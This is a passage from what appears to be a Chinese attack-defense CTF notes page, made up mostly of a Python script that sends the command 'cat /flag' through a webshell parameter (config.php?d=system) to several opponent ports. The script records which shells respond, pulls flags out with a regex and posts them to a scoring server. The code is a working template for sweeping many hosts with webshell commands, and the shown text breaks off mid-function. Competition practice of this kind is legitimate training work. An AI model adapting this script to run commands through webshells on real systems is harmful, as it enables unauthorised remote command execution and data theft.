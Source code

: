 ![img](assets/20190206164035.png)



## ssh自动化连接+改密码



## diff工具





## Attack

### 自动提交脚本

```python
#coding:utf-8
import requests
import re
import time

url = "http://ip:"
url1 = ""
shell = "/includes/config.php?d=system"
passwd = "c" 
port = "80"
payload = {passwd: 'cat /flag'}

flag_server = "http://flag_server/flag_file.php?token=%s&flag=%s"
teamtoken = "team1"

def submit_flag(target, teamtoken, flag):
    url = flag_server % (teamtoken, flag)
    pos = {}
    print "[+]Submitting flag:%s:%s" % (target, url)
    response = requests.post(url, data=pos)
    content = response.text
    print "[+]content:%s" % content
    if "success" in content:
        print "[+]Success!!"
        return True
    else:
        print "[-]Failed"
        return False


def flag():
    f=open("webshelllist.txt","w") 
    f1=open("firstround_flag.txt","w")
    for i in [8802,8803,8804]: 
        url1=url+str(i)+shell
        try:
            print "------------------------------------"
            res=requests.post(url1,payload,timeout=1)
            if res.status_code == requests.codes.ok:
                print url1 + " connect shell sucess,flag is "+res.text
                # 记录shell和获取的flag
                print >>f1,url1+" connect shell sucess,flag is "+res.text
                print >>f,url1+","+passwd
                # 正则捕获flag
                if re.match(r'hello world(\w+)', res.text):   
                    flag = re.match(r'hello world(\w+)', res.text).group(1)
```